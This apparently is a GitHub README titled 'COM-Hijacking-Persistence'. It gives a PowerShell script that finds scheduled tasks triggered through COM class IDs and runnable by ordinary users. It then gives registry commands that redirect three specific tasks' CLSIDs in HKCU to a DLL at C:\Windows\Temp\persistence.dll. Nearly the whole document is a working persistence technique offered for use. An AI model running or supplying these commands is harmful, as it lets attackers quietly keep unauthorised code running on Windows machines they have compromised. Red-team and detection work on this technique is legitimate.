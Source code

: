# COM-Hijacking-Persistence

Show COM CLSIDs:
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      $usersSid = "S-1-5-32-545"
      $usersGroup = Get-LocalGroup | Where-Object { $_.SID -eq $usersSid }

      if ($Task.Principal.GroupId -eq $usersGroup)
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}


CacheTask:
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{0358B920-0AC7-461F-98F4-58E32CD89148}"
New-Item -Path "HKCU:Software\Classes\CLSID\{0358B920-0AC7-461F-98F4-58E32CD89148}" -Name "InprocServer32" -Value "C:\Windows\Temp\persistence.dll"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{0358B920-0AC7-461F-98F4-58E32CD89148}\InprocServer32" -Name "ThreadingModel" -Value "Both"

Calibration:
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{B210D694-C8DF-490D-9576-9E20CDBC20BD}"
New-Item -Path "HKCU:Software\Classes\CLSID\{B210D694-C8DF-490D-9576-9E20CDBC20BD}" -Name "InprocServer32" -Value "C:\Windows\Temp\persistence.dll"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{B210D694-C8DF-490D-9576-9E20CDBC20BD}\InprocServer32" -Name "ThreadingModel" -Value "Free"

SystemSoundsService:
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{2DEA658F-54C1-4227-AF9B-260AB5FC3543}"
New-Item -Path "HKCU:Software\Classes\CLSID\{2DEA658F-54C1-4227-AF9B-260AB5FC3543}" -Name "InprocServer32" -Value "C:\Windows\Temp\persistence.dll"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{2DEA658F-54C1-4227-AF9B-260AB5FC3543}\InprocServer32" -Name "ThreadingModel" -Value "Both"
